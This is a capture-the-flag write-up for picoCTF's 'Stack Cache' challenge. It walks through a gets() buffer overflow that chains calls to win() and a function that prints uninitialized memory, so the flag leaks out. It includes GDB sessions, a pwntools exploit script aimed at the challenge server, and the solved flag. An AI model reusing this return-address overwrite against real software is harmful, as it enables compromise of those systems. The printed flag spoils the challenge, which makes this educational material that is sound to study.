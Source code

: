 # Stack Cache - 400 pts

### Key points

- Buffer Overflow
- Undefined Behaviour

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Undefined behaviours are fun. It looks like Dr. Oswal allowed buffer overflows again. Analyse this program to identify how you can get to the flag.

We are given a binary and its source code.

---

### Solution

Open the source code. We have a `main()` function that calls a function `vuln()`. `vuln()` takes an input via `gets()`, which means we are free to stack smash. It also prints our input back to us. There are two other functions, `win()` and `UnderConstruction()()`, that are never called. That's not a problem though, since we can simply overwrite return addresses to the addresses of these functions.

`win()` reads a file `flag.txt`, but never actually prints it.

`UnderConstruction()()` is where the undefined behaviour the challenge hints at occurs. Some variables are defined but never initialized, and then printed. Undefined behaviour is when the result of executing a program is unpredictable. Let's see what happens if we call `UnderConstruction()()`.

---

Decompile the binary in Ghidra to find the addresses we need.

The address of `UnderConstruction()()` is `0x08049e20`.

The address of `win()` is `0x08049da0`.

Let's run the binary in GDB to find the offset. The input size buffer is set to 10, so we shouldn't have to enter a super-long string. Set a breakpoint at the return address of `vuln()`.

```console
$ gdb vuln
gef> b *0x08049ef8
Breakpoint 1 at 0x8049ef8
gef> r
Starting program: /var/www/CanHack/vuln
Give me a string that gets you the flag
aaaabbbbccccddddeeeeffffgggg
aaaabbbbccccddddeeeeffffgggg

Breakpoint 1, 0x08049ef8 in vuln ()
...
gef> continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x65656464 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1d
$ebx   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$ecx   : 0x1d
$edx   : 0xffffffff
$esp   : 0xffffd470  →  "eeffffgggg"
$ebp   : 0x64646363 ("ccdd"?)
$esi   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x65656464 ("ddee"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
```

The return pointer, `$eip`, has been overwritten to `0x65656464`, which is `ddee`. So our null bytes will be the length of `aaaabbbbccccdd`, which is 14.

Let's set a breakpoint at the return address of `UnderConstruction()`, and run the program with an overwrite of `vuln()`'s return address to the address of `UnderConstruction()` (`0x08049e20`), packed as bytes.

```console
gef>  b *0x08049eb3
Breakpoint 1 at 0x8049eb3
gef>  r < <(echo -ne "aaaaaaaaaaaaaa\x20\x9e\x04\x08")
Starting program: /var/www/CanHack/vuln < <(echo -ne "aaaaaaaaaaaaaa\x20\x9e\x04\x08")
Give me a string that gets you the flag
aaaaaaaaaaaaaa ▒
User information : 0x8049ef4 0x8051349 0x80e7000 0x80e7000 (nil) 0xffffd454
Names of user: 0x80c9a04 0x80e71c0 0x8051369
Age of user: 0xffffd468

Breakpoint 1, 0x08049eb3 in UnderConstruction ()
```

In C, if a variable is unitialized, it is not given a default value of 0 (unlike some other languages). Instead, it is assigned whatever value happens to be in the memory location the variable is being assigned to. We can use this exploit:

First we jump to `win()`, which _reads_ the flag into the memory, then we jump to `UnderConstruction()`, which _prints_ the memory that should have the flag in it.

`win()` doesn't have a buffer, we shouldn't need any null bytes there. Our payload will look like this:

`14 null bytes + address of win() + address of UnderConstruction()`

Lastly, don't forget to create a fake flag in `flag.txt` so `win()` doesn't complain.

```console
$ echo "picoCTF{t35t_fl4g}" > flag.txt
$ gdb vuln
gef>  run < <(echo -ne "aaaaaaaaaaaaaa\xa0\x9d\x04\x08\x20\x9e\x04\x08")
Starting program: /var/www/CanHack/vuln < <(echo -ne "aaaaaaaaaaaaaa\xa0\x9d\x04\x08\x20\x9e\x04\x08")
Give me a string that gets you the flag
aaaaaaaaaaaaaa▒ ▒
User information : 0x80c9a04 0x8049ef4 0x8051349 0x80e7000 0x80e7000 0xa7d67
Names of user: 0x346c665f 0x74353374 0x7b465443
Age of user: 0x6f636970
```

If you are familiar with solving picoCTF challenges, that `0x6f636970` should raise some red flags - it's the hex representation of `pico`! (backwards for endianness). Converting the hex from there back until `7d` (`'}'`), we get our fake flag, `picoCTF{t35t_fl4g}`. Time to pwn!

---

Connect to the remote and send our payload:

```py
from pwn import *

r = remote("saturn.picoctf.net", 55387)

payload = b"a" * 14 + p32(0x08049da0) + p32(0x08049e20)
r.sendline(payload)
result = r.recvall()
r.close()
```

Get the hex values:

```py
result = result[result.index("0x"):]

hex_result = ""
for i in result.split():
    i = i[2:]
    try:
        int(i, 16)
    except:
        continue
    else:
        if len(i) >= 2:
            hex_result += i
```

Decode the flag and reverse it (endianness):

```py
FLAG = hex_result[hex_result.index("7d"):hex_result.index("6f636970") + 8]
FLAG = bytearray.fromhex(FLAG).decode()
FLAG = FLAG[::-1]

print("Flag:", FLAG)
```

The full script is in [solve.py](solve.py).

---

## Flag

> `picoCTF{Cle4N_uP_M3m0rY_4c1cd4ab}`
